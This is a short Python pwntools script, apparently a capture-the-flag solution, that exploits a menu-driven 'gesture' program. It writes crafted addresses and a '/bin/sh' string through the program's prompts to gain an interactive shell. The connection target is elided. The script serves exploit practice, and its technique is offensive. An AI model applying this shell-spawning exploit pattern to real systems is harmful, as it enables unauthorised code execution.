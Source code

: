 ```python
from pwn import *

context(arch='amd64', os='linux')
io = ...

for _ in range(8):
    io.sendlineafter(b'gesture: ', b'6')

io.sendlineafter(b'gesture: ', b'1')
io.sendafter(b'gesture? ', p64(0x401235) + p64(0x4040f8)[0:7])
io.sendlineafter(b'gesture: ', b'1')
io.sendlineafter(b'gesture? ', p64(0x401228) + b'/bin/sh')
io.sendlineafter(b'gesture: ', b'0')

io.interactive()
```